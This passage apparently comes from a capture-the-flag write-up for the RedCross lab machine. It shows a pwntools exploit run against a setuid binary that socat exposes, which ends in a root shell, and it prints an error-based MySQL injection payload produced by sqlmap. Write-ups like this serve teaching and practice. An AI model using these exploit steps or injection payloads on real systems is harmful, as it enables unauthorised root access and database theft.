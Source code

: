 ```
 41 p.sendline(payload)
 42 p.interactive()

```

If I run without starting `socat`, it warns me:

```

root@kali# python ./pwn_iptctl.py
[*] Attempting to connect
[-] Opening connection to 10.10.10.113 on port 9001: Failed
[ERROR] Could not connect to 10.10.10.113 on port 9001
[!] Could not connect to target
[!] Is socat running on target?
[!] TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i" running?

```

Start `socat`:

```

penelope@redcross:/dev/shm$ socat TCP-LISTEN:9001 EXEC:"/opt/iptctl/iptctl -i"

```

And exploit to get shell with effective userid of root:

```

root@kali# python pwn_iptctl.py
[*] Attempting to connect
[+] Opening connection to 10.10.10.113 on port 9001: Done
[*] Switching to interactive mode
$ id
uid=0(root) gid=1000(penelope) egid=0(root) groups=0(root)

```

## Beyond Root

### SQLi Details

I noticed when I added a `'` to the `o` parameter in the url that I got a debug statement back from the page:

![](https://0xdfimages.gitlab.io/img/1554221201416.png)

When I ran `sqlmap`, it offered this as one of the proof of concepts to get data:

```

    Type: error-based                                                        
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: o=9') AND (SELECT 8387 FROM(SELECT COUNT(*),CONCAT(0x7176717671,(SELECT (ELT(8387=8387,1))),0x7170786271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- vfSo&page=app

```
